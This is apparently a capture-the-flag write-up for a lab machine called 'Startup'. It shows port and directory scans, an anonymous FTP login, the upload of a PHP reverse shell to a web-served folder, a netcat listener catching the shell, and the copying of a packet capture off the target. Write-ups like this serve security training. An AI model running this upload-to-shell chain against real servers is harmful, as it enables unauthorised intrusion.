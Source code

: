 # Startup

Starting with basic active recon:
```sh
nmap -sV $ip             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-08 13:58 CEST
Nmap scan report for 10.10.76.230
Host is up (0.069s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```

And also direcotry scan:
```sh
ffuf -u http://$ip/FUZZ -w ./webhacking/wordlists/directory_scanner/common.txt  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.76.230/FUZZ
 :: Wordlist         : FUZZ: /home/kali/webhacking/wordlists/directory_scanner/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 70ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 70ms]
    * FUZZ: .hta

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 70ms]
    * FUZZ: .htaccess

[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 70ms]
    * FUZZ: files

[Status: 200, Size: 808, Words: 136, Lines: 21, Duration: 70ms]
    * FUZZ: index.html

[Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 70ms]
    * FUZZ: server-status

:: Progress: [4613/4613] :: Job [1/1] :: 589 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```

Taking a look at the website:
```sh
curl -v $ip                                      
*   Trying 10.10.76.230:80...
* Connected to 10.10.76.230 (10.10.76.230) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.76.230
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 08 Oct 2023 12:16:40 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Thu, 12 Nov 2020 04:53:12 GMT
< ETag: "328-5b3e1b06be884"
< Accept-Ranges: bytes
< Content-Length: 808
< Vary: Accept-Encoding
< Content-Type: text/html
< 
<!doctype html>
<title>Maintenance</title>
<style>
  body { text-align: center; padding: 150px; }
  h1 { font-size: 50px; }
  body { font: 20px Helvetica, sans-serif; color: #333; }
  article { display: block; text-align: left; width: 650px; margin: 0 auto; }
  a { color: #dc8100; text-decoration: none; }
  a:hover { color: #333; text-decoration: none; }
</style>

<article>
    <h1>No spice here!</h1>
    <div>
        <!--when are we gonna update this??-->
        <p>Please excuse us as we develop our site. We want to make it the most stylish and convienient way to buy peppers. Plus, we need a web developer. BTW if you're a web developer, <a href="mailto:#">contact us.</a> Otherwise, don't you worry. We'll be online shortly!</p>
        <p>&mdash; Dev Team</p>
    </div>
</article>

* Connection #0 to host 10.10.76.230 left intact
```

Not much to go on about. Taking a look at the `/files` direcotry we can see some things but not a lot of interesting stuff. <br/>
Although 1 thing to keep in mind is the direcotry `/files/ftp/`. Let's try the ftp Port we found with nmap:
```sh
ftp $ip
Connected to 10.10.76.230.
220 (vsFTPd 3.0.3)
Name (10.10.76.230:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||47265|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Oct 08 11:53 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

Seems like anonymous login worked. Here we can also see the files we found on the website direcotry `/files`.
But again there is not a lot of interesting stuff here. Let's try to uplaod something.
```sh
put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49222|)
553 Could not create file.
```

Seems like this didn't work, but there is also another direcotry.
```sh
ftp> cd ftp
250 Directory successfully changed.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||33317|)
150 Ok to send data.
     0        0.00 KiB/s 
226 Transfer complete.
```

Taking a look at the website:
```sh
curl http://$ip/files/ftp/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /files/ftp</title>
 </head>
 <body>
<h1>Index of /files/ftp</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/files/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="exploit.php">exploit.php</a></td><td align="right">2023-10-08 11:53  </td><td align="right">5.4K</td><td>&nbsp;</td></tr>
<tr><td valign="top"><img src="/icons/text.gif" alt="[TXT]"></td><td><a href="test.txt">test.txt</a></td><td align="right">2023-10-08 12:25  </td><td align="right">  0 </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.76.230 Port 80</address>
</body></html>
```

It seems like we are able to upload files via ftp and read them in the browser. <br/>
This normally indicates that a reverse shell is possible.
```sh
ftp> put rev_shell.php
local: rev_shell.php remote: rev_shell.php
229 Entering Extended Passive Mode (|||46398|)
150 Ok to send data.
100% |******************************************************************************************************************************************************************************************************************|  5489       84.43 MiB/s    00:00 ETA226 Transfer complete.
5489 bytes sent in 00:00 (38.34 KiB/s)
```

After uploading this and opening a netcat listener we are able to get a reverse shell:
```sh
nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.18.20.25] from (UNKNOWN) [10.10.76.230] 33016
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:39:50 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ls
ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old
```

Here we can read `recipe.txt`:
```sh
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

First Flag: `love`.

The next Flag is supposed to be a User Flag, therefore let's try to become a user

```sh
www-data@startup:/$ ls /home/
lennie
www-data@startup:/$ cd /home/lennie
bash: cd: /home/lennie: Permission denied
```

This doesn't get us far. There is also a suspicious direcotry:
```sh
www-data@startup:/$ ls incidents
ls incidents
suspicious.pcapng
```

We can try to read the file wit hwireshark so let's do that.
```sh
$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

Than using ftp we can download the file:
```sh
ftp> get suspicious.pcapng
local: suspicious.pcapng remote: suspicious.pcapng
229 Entering Extended Passive Mode (|||11380|)
150 Opening BINARY mode data connection for suspicious.pcapng (31224 bytes).
100% |******************************************************************************************************************************************************************************************************************| 31224      435.21 KiB/s    00:00 ETA226 Transfer complete.
31224 bytes received in 00:00 (219.39 KiB/s)
```

We can instantly see that there is a lot going on here.
![grafik](https://github.com/Aryt3/writeups/assets/110562298/bdb9ccf3-59d0-434d-91c8-1e249e52a56e)

Looking at the http requests we can see some interesting things.
![grafik](https://github.com/Aryt3/writeups/assets/110562298/c3b5a8b7-738c-4dd3-8296-13f35ba9966c)



